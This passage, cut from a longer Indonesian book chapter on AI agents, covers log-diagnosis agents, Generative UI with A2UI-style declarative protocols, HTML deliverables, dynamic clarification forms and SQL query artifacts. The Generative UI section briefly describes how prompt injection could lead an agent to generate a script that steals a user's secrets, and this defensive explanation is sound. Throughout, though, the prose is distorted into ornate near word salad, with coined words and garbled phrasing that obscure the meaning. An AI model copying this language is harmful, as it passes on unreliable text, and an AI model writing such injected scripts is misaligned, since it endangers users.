sejawatnya. Ujung titik puncak rentetannya, Agen menyelinap memaut dirinya ke kubu pangkalan GitHub menyisip keping titi-lintasan MCP meluncurkan lahirnya suatu naskah aduan rintisan *Issue* lalu lekas merematch-tugaskannya (*assign*) mendarat tepat pada muka pangkuan si Insinyur yang di-pinta (relevant developer), menyudahi tuntas rentetan jalinan sapu jagad auto dari hulu temuan cacat meruncing ke hiruk-pikuk pengutusan beban pelimpahannya (*task assignment*).

> **Eksperimen 5-8 ★★★: Peranti Penalar Lacak Diagnosis Kecerdasan Guna Kancah Log Tingkat Produksi**
>
> **Titik Acu Sasar Tembaknya (Experiment Goal)**: Cemerlang sanggup mandiri menggali mencungkil timbunan benih anomali di dasar serpihan riwayat panggung rekaman, melontar ciprat ramuan alat bahan uji coba (test cases), sekaligus lekas mendaulat rintisan lembar warta kerjaan (work items).
>
> **Langkah Penetrasi Teknis (Technical Approach)**: Si Agen menelanjangi serenteng ikatan bungkusan warta sekuens keping catatan produksinya disejajarkan menjejer seraya keping-sandi pustaka manual dokumen susunan arsitek-nya juga naskah PRDs semata-mata mengais melacak raut sidik jari tatanan pola kelakuan anomali (problem patterns) bersekutu dengan rentang gumpalan blok lapis susunan nan kecemplung musibahnya (modules involved). Sejurus ia merajut menganyam wujud rangkuman temuan naskah serenteng yang terstrukur menaungi poin strata kegentingan (*priority*), kubu jajaran-terlapor (*module*), gambaran kisahnya (*description*), hingga selipan resep pembetulannya (*improvements*). Ia-pun juga sanggup mencetus melahirkan bibit-bibit *regression tests* bersauh mengikat pada sandi asupan kode wujud *trajectory IDs* serta babak seruan silih pantul percakapannya (*interaction rounds*); mesin tumpuan kerangka panguji lantas menjalankan (*replay*) bongkahan rupa *cases* tersebut serta menyahkan (verifies) nilai pungkas serapannya. Babak puncak akhir laganya, Sang Agen menelurkan naskah keping pengaduan di lapak bursa GitHub menggunakan terowongan MCP.
>
>
> 
>

### Generative UI (Antarmuka Pengguna Generatif Berbasis Kode)

Metode interaksi jamak Agent turun temurun utamanya menyapa penggunanya dari pintu dialog aksara (plain-text) lumrah mendatar belaka. Akan hal nya Aksara semata memaku di jalan selurus lurus, pada satu pijakan ranah dimensi (*linear, one-dimensional medium*), bahkan dari pelbagai rupa kancah kian parah terasa sebegitu tumpul ringkih mandul efisiensinya (*inefficient*). Mengepul himpunan kepingan data-tersusun kaku memancing pemborosan lintasan lempar balasan wacana (*lengthy back-and-forth*); benang merah kompleksitas pertalian seluk beluk sang data nan menumpuk sedemikian pelik mustahil sekadar dilukiskan utuh dengan sekedar muntahan larik teks biasa; berlanjut ketika insan sang *user* dihantam dilema perempatan pilih rupa-rupa di belantara persimpangan (options), setumpuk jejaring pilihan aksara jauh melenceng membingungkan dari kemulusan (*less intuitive*) di saat memandangi rupa letak bentang visual tata antarmuka (visual interface).

Muntahan sulap *Code generation* merentangkan titi jalan pencerahan melolos melibas kungkungan (limitations) itu tadi: Peran Sang Agent lincah gemulai sigap mandiri memancarkan memupuk gubahan *forms* lembaran-isian, tabel dan serapan chart bergerak interaktif, lantas membukit mengular jadi bentuk kancah sarana rupa wujud paripurna aplikasi jagad maya (*web applications*), mencabut akar sifat kaku rupa paparan (static text dialogue) lebur bertransformasi perwujudan persentuhan *interaksi multi-modal (multimodal interaction)*. Ragam arun-langkah (pattern), kala si Agent berpolah sedemikian sigap kilat lentur mengeja lisan merakit melahirkan bingkai rupa *interface*nya, dinobatkan bersalut titel mentereng **Generative UI**.

**Membakukan Generative UI: Siasat Ragam Protokol Berhaluan A2UI-like.**

Membiarkan dan memanjakan segerombolan sang Agent semaunya liar muntah-menelurkan kepingan kode *HTML* berikut *JavaScript* di mana si pihak muara (*client*) langsung serta-merta tanpa periksa me-*render* (renders) berikut memacunya melenggang (executes directly) pastilah menyalakan alarm marabahaya keamanan nan tak tertanggungkan (security risk): bisa-bisa rangkaian jerat *kode* rakitannya itu mengandung bisa (malicious). Ambil umpama misal, manakala entah tangan jail tak kentara iseng menyelipkan bisik durjana tersamar ditumpukan masukan-asupannya, sang Agent boleh jua malah menari diperbudak melenceng gara-gara suntikan *prompt injection*, lantas tanpa-sadar tanpa-ba-bi-bu menyusun rupa ramuan sebongkah mantra perusak *script* jahat nan lincah main embat rahasia aset milik si penggunanya secara mengendap-endap. Di area titik inikah seluk beluk alur biang asalnya usut-usut kausalitas memegang letak perkara mutlak: **injeksi prompt (prompt injection)**—susupan bisik-instruksi sesat terbungkus baur nista mengkontaminasi jatah porsi sang masukan milik-Agent—seolah tampil murni-asli selaku pencetus gara-gara intinya (cause), saat dilain sudut menunaikan jalannya eksekusi barisan *malicious script*-nan-cacad nista tsb merajalela di bilik peramban (browser) dan diam-diam mencatut perhiasan rahasia merujuk cerminan laku kejahatan *XSS* di ranah jagat *Web* lumrahnya tempo-dulu (Cross-Site Scripting); aksi jahat sedemikian-rupa sesungguhnya mustahil bila sekadar digebyah uyah semerta-merta asal dicap distempel XSS biasa. Perjanjian haluan bahasa rupa wujud antarmuka (*Declarative interface protocols*) selaik serapan *A2UI* (*Agent-to-User Interface*) mempersembahkan jembatan titian penanganan yang jauh mengedepankan derajat naungan (safer approach) lebih kalem aman-terjaga. Alih-alih membabi buta membombardir tumpahan wujud-langsung berupa kode eksekusi (*executable code directly*), sosok si Agen cukup memuntahkan rupa bungkusan JSON bertitah bagai manifes-deklarasi gambaran (*UI description manifest*), umpamanya saja "Gelar suguhkan rentang tabel dengan ukuran matrik-papan baris bernilai tiga mengiring laju sumbu deret berpalang dua memaparkan titel mahkotanya 'Data Penjualan'." Sisi ujung klien (*client*) lantas merebus menyajikan hidangan pemandangan wujud tatapan mukanya (renders) dengan hanya membentangkan (using its own predefined, safe components) ragam perabot yang dipersiapkan sebatas aman teruji-mutlak murni-setelannya saja. Kelakuan ini selaras lakon perumpamaan seorang pelanggan warung resto (Agent) memilah daftar santapan pada ukiran kertas menu sebatas anjuran koki (predefined components), haram sungguh menyelinap beringas memasuk mengacak dapur kuali belanga menanak seenak jidat menantang larangan (execute arbitrary code). Di ceruk inilah sekepal kabut acapkali menyumbang ke-saru-an pemaknaan perihal istilah perwujudan *AG-UI* (*Agent-User Interaction*, anjuran CopilotKit). Tanpa peduli sedemikian betapa rupa kemiripan kedengaran seruannya (similar name), makhluk ia satu ini mutlak tiada perwujudan turunan rupa perancang deklarator (UI description language) sebaliknya sesungguhnya adalah jelmaan dari sebuah **ajang lintasan event dan per-pengiriman sarana protokol (transport protocol)** berlakon membocorkan membingkai merembeskan pergerakan perputaran-hidup internal sang Agen berkelanjutan membayanginya mengiring lari perputaran panggung tatapan-awal (frontend)—menjembreng paut rekam rintisan warta pesan (messages), rentetan usik si alat (tool calls), juga ulasan jejak lecet *state patches*; sekalian membonceng di baliknya sarat beban embanan angkut sang (UI payloads) macam perwujudan manifest-nya si *A2UI*. Dua sekawan rupa semacam inipun diyakini sejatinya bahu membahu sejalan (complementary) tak sepatutnya malah di sasar dimasukan gembok kamar (grouped as examples of the same declarative-interface category) tersemat cap nama sebaya senasib-sekaum perihal perihal haluan deklaratif wujud-wujud deklarasi itu melulu.

Napas utama asas pijakan tatanan haluan yang deklaratif melengkung memeluk kukuh panduan kredo **kemurnian keselamatan prioritas tinggi (security-first)**: pijakan pangkal hilir *client* memeluk rapat memelihara tabung rujukan silsilah (trusted component catalog) alat bantu (e.g., *Card*, *Button*, *TextField*, *Table*), maka sejurus daftar kitab rujukan juga instrumen perebus tampilan (renderer) memeluk erat tegaknya batasan (correctly enforced), tak ayal laju derap agen sebatas cuma kuasa melongok menggamit melahap peranti alat dalam lembar daftar pusakanya itu (cataloged components) sebatas haram nian memuntah ceceran sandi durjana selaik perusak sisipan usil merajalela. Pihak hulu-*client* murni memaparkan menterjemahkan merangkai (renders) mengayun sarana asli-jati alaminya (native components), sangat jauh dari tindakan menyulap semau hati mengeksekusi html abal-abal cipratan beringas olahan sang Agen. Sederet rupa perjanjian haluan (protocols) semacam ini secara jamak melandasi penopangan (support) memanjakan **suguhan panggung lintasan lintas-ruang platform** (the same description renders in React, Flutter, and native apps) tak kelewatan di balut kesaktian **menghasilkan wujud keping pelan membukit merupa setapak menanjak (incremental generation)** (salah satu triknya lewat penggelindingan guyuran untaian-alur serpihan JSONL nan di-rajut lekas seketika sejurus kepingannya singgah di pangkuan sang *client*).

Namun nyatanya, manuver deklarasi itu pun di anjur merapati pas mengawaki kancah sirkuit ragam pola komunikasi ranah standarnya sebatas itu-itu belaka (semisal *forms*, *tables*, ataupun *cards*), kebalikannya saat menyongsong tuntutan racik ramu mahakarya super spesial selera-sendiri kental nan kustom gila (highly customized needs) (misalkan rekaan grafis membius /custom visualizations/, bilik gelaran ajang panggung game/game interfaces), tembakan lugas kucuran sandi sakti (*direct code generation*) niscaya tak pudar wibawanya kekeh mendiami rupa tatanan maha-karya keleluasaan merasuk (flexible choice). Di bilik di bawah paragraf barisan iniah mengurai rinci menelanjangi wujud persilangan pelakon pemanfaatan tak-kasat mata beralaskan panggung kedua wujud rupa yang dikandungnya itu.

**Serah-Terima (Delivering Results) Bongkahan via HTML: Melengserkan Laporan Basi Rupa Markdown.** Kancah *Generative UI* ini bukan sekadar alat di masa saling singgung (interaction) malah bertransformasi melabrak memugar segenap tatanan kemasan hantaran karya (deliverable) pamungkas si Agen-nya. Sudah pakemnya dari zaman leluhur (*Traditionally*), kelar-nya babak Sang Agent melahirkan seonggok setumpuk gundukan hasil usungan perwujudan narasi ketikan rupa Markdown report belaka; sayangnya melintasi alur gundukan tumpuk baris merunduk membuang lelah (paging through linearly arranged Markdown) tiadalah kenikmatan baca nan hakiki untuk dijamah matanya. Seiring Agen membumbung mengukir kepiawaian di bidang merangkai *frontend code*, gairah tren pun bergeser miring menuntutnya mampu memproduksi *HTML* seketika seutuhnya. Bilamana disanding membelakangi Markdown semata, karya serah-terima berwujud keping *HTML* melesat berlari unjuk segerobak keistimewaannya yang tegas menonjol. Perdana jagoannya, suguhan **demonstrasi atraksi interaktifnya** merestui penonton mencecap rasanya mesin sistem melenggang bermain nyata menyentuh hidup (interactive form), kerap menyumbang pancaran ilham se-kedipan (understand at a glance) mengungguli rakitan pertautan gubahan sastra panjang berjela berurai kata-kata. Titik dua juaranya, **daya pukau tampilan visual paparan datanya (better data visualization)** merangsang kemanjaan sang *user* mencumbu mengulik pendaran taburan (explore data) berpadu permainan serakan warna-warni rupa *charts* lantas dibubuhi alat kenop-tuas (interactive controls) penyortir meramu menyaring lapis mendalam (drilling down) menyelami perut relung intisari (details). Tingkat ketiga rahasia saktinya, **sifat kepingan peninggalan nan abadi luwes lekas bersolek sepanjang umurnya (continuously improvable deliverables)** yang mana mempersilakan wujud Agen leluasa menyuntik asupan gizi memompa bengkak rentang keping-HTML itu tanpa kendor sembari lari mengayuh lakon tugas tiada batas-nya menggeser tamatnya mitos (static artifact) gundukan nisan artefak kaku-bisu hanya saat lonceng penutupan menyalak doang.

Pandangilah cuplikan babak-kisah lakon kancah pribadi sang pengarang mencoret menyusun pilar-pilar tumpukan karya riset-skripsinya seolah cermin terang belaka: setiap helai tapak merangkai *research project*, sang begawan kukuh menyandarkan di pangkuan sebuah halaman panggung web melingkar-saling sahut meriah nan interaktif[^ch5-4]. Ia mendaulat dwi-wujud merangkap selaku persembahan (deliverable) garis pamungkasnya dan menancap bak kepingan nafas peninggalan hidup (living document) di seluruh lorong lintasan pendarasan (research process)—si empunya (author) malah mendaulat-titah si Sang Agen mengurusi memoles bersolek raut keping website tiada henti (continuously update it) seraya lonceng dentang-gema *experiments progress* melenggang sejalan maju. Halaman bentangan saktinya itupun malang-melintang menuntaskan sekadar-kedarnya menyasar murni tiga target sasarannya. Sasaran paling utama perdana, **pemantapan lacak rekam runtutan asupan uji pakem-eksperimen (experiment data traceability)**: remahan detil sebongkah angka data rill penyokong per tiap letupan nafas uji cobanya, balutan racikan sematan *prompts used*, juga gelondongan warta sahutan (raw responses) utuh balasan kubu *LLM*-nya kesemuanya gampang di jamah dijengkali se-centi se-inchi-nya menelanjangi bongkahan per satu (item by item) tepat di hamparan muka situsnya; membeberkan mengumbar membabar segala jerohan menganga terang benderang meruntuhkan tembok rahasianya (laying everything out in the open) lekas-lekas menyibak mencokot menangkap keculasan cela (spot problems) dikala rupa pembentukan ramuannya (data construction), melenceng di wajah format, maupun kesasar (distribution), berbareng jeli menangkap sekelebat serong-bias pandang (systematic biases) merambat sembunyi di lorong sahutan si gempuran jawaban si LLM-nya atawa kerikil serpihan penilaian nilai laku juru-sidang penilainya (judge's scoring). Poin tumpuan sasaran kedua, **pengawasan gema-nyala denyut irama latihan si kancah pelatih (training metric monitoring)**: Situs web membentangkan pameran kurva-kurva kepelatihan (training curves) secara telanjang bulat, menjadikannya suguhan lunak dalam mencerati kesehatan rongga urat nadi murni nafas di raga batin keping jerohan jantung sistem model tsb (**internal health metrics**) di berbarengan menciduk memastikan menelaah denyut pelatihan prosesinya berdegup lurus sehat purna utuh. Istilah ini merampas pinjam memetik sanjungan aura balutan dunia ketabiban kedokteran medis: rentetan warta pendaran sinyal organ kedalaman raga atas segar-tidaknya proses permesinan internal pelatihannya melenggang mulus—kerugian penyusutan pilar latihan jua kancah pembuktiannya (training and validation loss), norma turunan pendar-lajunya (gradient norm), laju kecerdasan pembelajaran, juga denyar rupa kebingungan model/perplexity dikala memuntahkan rupa percikan aksara keping wujud sang-tokens (pertanda pengukur rasio seberapa sesumbar besar kepedeannya/"confidence" membombardir muntahan produk output kepingannya itu), serta menelisik ke kubu serapan metode pembelajar bersauh dukungan-reinforcement learning, upah (reward), lenceng ukuran si-KL divergence, plus ke-amburadul-an aturan ketidakpastian bimbang pelik kebijakan si/policy entropy. Wujud deretan tersebut berpisah ranjang amat mencolok terbelah berbeda menyangkal wujud gurat nilai akhir/final outcome semacam persentase ketuntasan-sukses mutlak task accuracy-nya: bak perawakan laporan potret uji bedah raga *check-up* di-adu lurus di sanding raut pembawaan luar penampang pesona kemulusan raga murni si-kliennya (outward performance), pendaran organ-jerohan pilar urat nadi keping (internal health metrics) kerap menyuguhkan riak penyakit kelam—semburan hampa kerugian tak berujung (non-converging loss), terjangan gradasi amarah meroket (exploding gradients), keruntuhan di arena padepokan-latih (training collapse)—mendahului (much earlier) segalanya menyumbul. Titik bidik ketiga yang paripurna, **Gelar-panggung ajang rupa demonstrasi unjuk taring lakon mesin raksasa-nya (demonstrating system operation)**: rentetan gubahan tatanan visual peraga mengoyak tirai tabir menelanjangi seru-nya denyut irama mesin jagad luas sistem berjalan (how the entire system works), memanjakan mata khalayak pemirsanya menjangkau mendedah lapis struktur wujud rekayasa binaan batin AI (structure of the AI-built system) pada sepersekian lompatan kerlingan kelopak (at a glance).

[^ch5-4]: Halaman muka persinggahan muara ladang garapan panggung karya riset skripsi-projek milik sang begawan terbaring melentang apik beralamat murni di persinggahan `https://01.me/research/`, tempat berkumpulnya bilik demi bilik tajuk kancah projek-demi-projek merekam mendesah abadi per-selang perputaran-nafas merampas rupa situs web melingkar nan interaktif-sehat segar tanpa luput pemeliharaannya.

**Menjernihkan Niat Pengguna.**

Tatkala permintaan dari pengguna sarat dengan kekaburan (vague) maupun masih bertebaran separuh jalan (incomplete), Sang Agen wajib menggamit tanya melontarkan gurat perjelas (*clarifying questions*) demi mencedok meraup kelengkapan sisa serpihan informasi rumpang nan tertinggal (missing information). Susunan produk semacam turunan per-ilham *OpenAI Deep Research* galibnya lazim membelah kebekuan hal itu mendayakan tanya-jawab murni aksara (text-based Q&A), sialnya langkah tersebut terang benderang disandera sekat batasan buntu nan membelenggu (*clear limits*): betapa jeblok kepelikan efisiensinya bersandar sebatas di tiap sebiji soal tanya harus memakan pengorbanan jatah giliran cakap memutar (dialogue turn), akibat telaknya menghidangkan sepuluh pilar penegas kejernihan sanggup mencekik meminta tumbal hingga berputar melingkar genap sepuluh tikungan (*ten rounds*); dan terlebih parah menderita rupa kebobrokan dikala dituntut mengekspresikan (expressing dependencies) sekat-sekat hubungan pertautan di antara jejaring tumpukan ragam pertanyaannya—sekelumit ilustrasi berwujud peruntukan titik pendaratan sasaran berlibur yang mana secara mengikat menyeret seraya melumpuhkan sebagian keping persediaan rute sarana pilihan gerbong armada kendaraannya—hal nan pastinya kelimpungan tergagap tak karuan kalau semata bergantung memoles tatanan teks usang polos merupa melukiskannya secara transparan lugas.

Berkah hembusan sihir Pembuatan Kode (*code generation*), memampukan si Agen melecut kreasi panggung sarana interaksi jalinan antarmuka melesat elok terstuktur utuh yang kelak mendepak melengserkan tata cara kuno bertahta tanya-jawab sekedar teks (*text-based Q&A*). Membaca Gambar 5-8 menjabarkan guratan proses gerak membina formulir laju bergerak dinamis, mempertontonkan tontonan lincah saat Agen menyulap bongkahan sebiji tanya pertanya penegas bertransformasi wujud menjelma balutan lembar antar-muka tertata apik nan kelak direnggut merangkul pengisian rampung dalam sapuan sekali tamat jreng (*filled out in one go*). Si Agen lekas mendedahkan keping baris rancangan formulir *HTML* terselip menyelundup menjepit serba-serbi wujud tatanan kemudi (controls) kendali asupan input—semacam perwujudan peti kotak celah teks menjebak ragam rentang bebas-pilihan (open-ended information), untaian rupa terjun pita juntai *dropdown* merengkuh susunan ragam prasetel-terbina awalan (predefined options), jejeran keping periksa (checkboxes) memfasilitasi sapuan pilihan mencomot banyak-ragam sekaligus, tak ketinggalan sekepal piringan pengais tanggalan (date pickers) menyumbang penyederhanaan keruwetan saat mendaulat perihal rupa sangkal kalender-waktu. Corak yang melejit membubung berkasta maju lagi lagi tak sungkan menggunakan racik ramuan *JavaScript* memancing rentet formulir beruntun berjejal bak cucuran jeram air *cascading* merupa mempertunjukkan atawa malah seketika melenyapkan rintisan deret tanya susulan dan mempermak memoles rupa kebangkitan gubahan pilihan (available options) senantiasa selaras merepon sejalan manuver usapan sentuhan sang *user*. Pengguna melibas melempar lumat paripurna membereskan bongkahan lembaran penuh di tempo kesekalian tamatnya, memberangus musnah jajaran tumpukan guliran obrol-cakap perputaran bertubi (multiple dialogue rounds), lalu serta-merta tanpa tedeng aling-aling kuasa menghirup menatap segenap kerumunan deret wajib rupa warta dan tali kelindan paut logika jejaring (logical relationships) antar tumpukan jalinan pertanyaannya.



> **Eksperimen 5-9 ★★: Jaringan Sistem Penjernih Niat (Intent Clarification System) di ranah Formulir Dinamis (Dynamic Forms)**
>
> **Tujuan Terang Eksperimen (Experiment Goal)**: Mengesahkan menguji sahih se-tinggi apakah kehebatan sang Agen menjernihkan merengkuh kejelasan gairah niat sang user melintasi jembatan auto-bangun keping merupa-lembar dinamis *HTML* formnya.
>
> **Langkah Penetrasi Teknis (Technical Approach)**: Agen membedah telanjang bongkahan rupa permintaan sang pemakai, mendaulat menandai titik-titik kelam pemutus jernih (clarification points), barulah membidani deret sandi formulir ditimpali rajutan bumbu rupa logika air-mancur lincah bersaut-sautan (cascading logic). Keping layar depan *frontend* meramu-rupa (*renders it*), pengguna melemparkan-tuntas serahannya pada sekedipan masa-tamat sekali lempar (submits it once), lantas Sang Agen segera melumat-urai menjembreng gelondongan muatan data *JSON* menuntaskan putaran roda per-tugas-annya kelak (*continue the task*).
>
> **Tanda Patok Batasan-Lulus (Acceptance Criteria)**: Seorang Pengguna menyerahkan celoteh "Saya menghendaki sebongkah pesanan melanglang buana bermanuver pesawat menuju Beijing." Sang Agen memunculkan formulir bertabur tatanan medan (*fields*) pilar berikut ini: bandar kota bermula (*departure city*) (berwujud tancapan *text input*), petikan tanggal mengudara (*departure date*) (kerangka *date picker*), pilar varietas libur perjalanannya (*trip type*) (disulap seutas *radio buttons* menjerat pilih jalan lurus pulang-pergi melingkar atawa lurus tamat), pamungkas kalender kepulangan mendarat (*return date*) (semata-mata bakal terpampang nyala seandainya rupa putaran bolak-balik kepulangan telah direnggut sang pemilihannya). Sang Pemakai sigap melontar segala kelengkapannya se-purnama dalam lari sejurus tunggal (in one go).
>

**Menghasilkan Kueri SQL.**

Penelusuran basis data (database querying) merupakan panggung skenario di mana pembangkitan kode (code generation) bisa dengan gemilang menjungkirbalikkan dan melejitkan mutu manisnya cita rasa ber-interaksi. Rute warisan kuno kala menjamah relung perut pangkalan-data bertumpu tegar di pundak perangkat berbasis tata-rupa GUI atau coret-tangan mengais menyemai SQL; sisi lawas perdana kental menderita kungkungan kepayahan keruwetannya dalam membopong ber-operasi, disusul seberang satunya mendaulat merengkuh memaksakan si pemakai mesti menimba berkubang ilmu di ladang keahlian tingkat khusus. Sebentuk pilar *AI Agent* senantiasa sanggup melumat menerjemahkan balutan basa basi-bahasa alami bermetamorfosa mewujud kueri SQL, menyingkap hamparan pintu gerbang kemudahan perambahan-basis data berbau robot-otomasi (automated database access), namun sebongkah jurang persimpangan rute pilihan lantas menghadang: harus-kah si Agen melumat sendiri rupa kueri itu sembari mendongeng celoteh menjabarkan bongkah hasil di bingkai basa basi awam bahasa alaminya, atawa justru menyihir si Agen lantas mendaulat lafal *SQL* semata ibarat suatu jejak pusaka *artefak* buat dibiarkan si sistem itu melahap menjalaninya serentak keping muka depan *frontend* melukiskannya mempertontonkannya?

Tawaran lajur muka merupa rupa kedok rona seakan "melanglang lebih bersinar tajam-cerdas (more "intelligent")" sayangnya melahirkan petaka cacat di sekujur derajat ke-tidak-efisienan purna-nya—kerukan gumpalan jaring merangsek meja-tabel rimbun nan-besar acapkali memuntahkan balasan (return) dalam belasan ribu renggangan lajur baris tak karuan. Merantai menyiksa LLM guna mengeja melumat semua lautan aksara lantas memintanya menceramahkan berwujud puisi untaian cerita bakalan menyedot membakar timbunan token serta rentang masa, sial rupa diperparah lagi celakanya, para begawan *LLMs* pun sangat diwaspadai selaku biang kerok salah-kaprah ternama di jagat tatkala "mereplika menyalin-ulang/transcribing" keping datanya. Titik balik solusi perbaikannya tiada lain bertumpu di **Artifact pattern**. Membaca Gambar 5-9 menampilkan pertunjukan wujud tata rute lintasan kerja milik sang *SQL query Agent*: jauh menolak ketimbang menelan membaca rupa-rupi serpih-datanya berdikari sendiri, justru Agen menyemai memproduksi racikan kueri *SQL* lantas melimpahkan estafet-nya membentur meluncur sang sistem selayak sebongkah tunggal kemandirian perwujudan utuh sang "artefak." Serentak si jeroan-sistem menyedot menjalan eksekusi ramuan kuerinya beradu menggedor rupa perut pangkalan-data lalu meramu menyulap rupa temuan keping laporannya mewujud rupa sebuah papan tabel terhampar buat si sang *user*. Untaian sari dari muatan-datanya pun akibatnya leluasa langsung memancar dari jerohan pangkalan-datanya menabrak lurus merasuk bidang antarmuka persinggahan tanpa babak belur mampir membonceng berkalung perantaraan menyentuh tangan sang LLM; peran sang LLM tegak sebatas memahat gurat alunan kuerinya namun haram menilik menatap tak sekali jua direpotkan memamah merangkum merapal kembali ribuah barisan tumpukan kelimpahannya. Titik tolak perwujudan inilah niscaya menggandeng mutu pelari kilat (faster) nan lurus presisi akurat telak di muaranya (*more accurate*).



Terus melejit melompat ke depan, sosok si Agen niscaya mumpuni menyihir memproduksi dwi-keping artefak serentak merangkai seutas saluran-pipa nan tersusun: wujud sekeping kueri *SQL* bersanding seuntai keping-sandi penyajian rupa membius-visual, seumpama guratan kode menuntun rupa sekumpulan tiang bagan papan-batang (bar chart). Si muka depan *frontend* kemudian melemparkan sodoran lurus hantaran hasil jebolan si *SQL* itu secepat kilat menyelusup menggasak segenap urat-nadi kode-sandi penggubah peraga visualnya. Sang raksasa si LLM cukuplah sebatas memahat mencipta kodenya belaka tapi tegak mundur mengelak menjauhi pusaran hiruk-pikuk badai campur aduk aliran laju jalannya sisa si data nan melenggang itu—inilah saripati pusaka ajian memproduksi keping-sandi berkedok sebatas jelmaan penyaji se-antarmuka belaka (*code generation as an interface*).

> **Eksperimen 5-10 ★★: Agen Interaksi ERP Bahasa Alami**
>
> Piranti lunak ERP (*Enterprise Resource Planning*) merupakan urat nadi kritis sistem di jantung perut per-bisnis-an mana jua (critical system for businesses), nan acap menopang menyandarkan di pangkalan tatap-muka (GUI interface) lokasi bersarang deret kerumitannya tatanan pengeksekusian rentetan paksa bertubi gedoran menuntut *mouse clicks* (klik). Sosok *AI Agent* dengan sakti sigap sanggup merubah-wujud rupa bahasa celoteh usul permohonan natural (*natural-language requests*) kelakuan para jajaran per-karyawannya menjelma berkalung bentuk *SQL queries*, membebaskan jalan terang perambah jalur ke arah sistem otonom (*automated database access*).
>
> Rentetan Titah Prasyarat (*Requirements*): Bangun bentangkan susun kerangka sebiji pelataran rupa *PostgreSQL database* mencakupi di dalamnya kembar-dua lapak tumpuan (two tables): (1) Meja Tabel Sang Pegawai/Employee table, membungkus melingkupi selipan tanda pengenal ID pekerja, tatanan sebut-nama, kamar naungan departemen, peringkat mahkota-level, rintisan jejak awal mula berlabuh hire date, ujung penamat waktu kepergian purna/resignation date (catatan NULL bermakna ia masih sakti wara-wiri memeras keringat di kancah ini); (2) Meja Tabel Gajian/Salary table, menelan muatan rupa ID pengenal pekerja, catatan penanggalan penerimaan-upah, jumlah bongkah upah sang-gaji (jatah di plot sekeping rekaman buat sebiji putaran bulan melingkarnya). Sang Agen langsung sigap mendaulat keluwesan menuntaskan teka-teki jawab-otomatis (automatically answers):
>
> 1. Betapa rupanya rentang kisaran ketahanan angka masa-abdi melabuh kesetiaan dari segenap pekerjanya (average employee tenure)?
> 2. Ada berapa belas tumpukan sisa keping nafas deret pasukan punggawa sang aktif bercokol per sudut ruangan kamar departemennya?
> 3. Bilik departemen ranah mana nan sanggup membubung unjuk gigi menohok melesatkan rerata peringkat-kasta pangkat pegawainya setinggi puncaknya?
> 4. Mengendus total kalkulasi wajah baru pegawai nan baru merangkak tiba menyusup singgah berlabuh ke tiap penjuru serambi departemen di rentang warsa kini (this year) membayangi jua tahun kalender selang lampaunya (last year)?
> 5. Sebesar apalah merenggut kisaran angka nilai upah pertengahan (average salary) se-departemen A pada pusaran sejak kisaran masa bulan Maret selang setahun yang telah-lewat berujung (year before last) hinggap ke titik henti kisaran keping di bulan Mei melipir pada setahun baliknya (last year)?
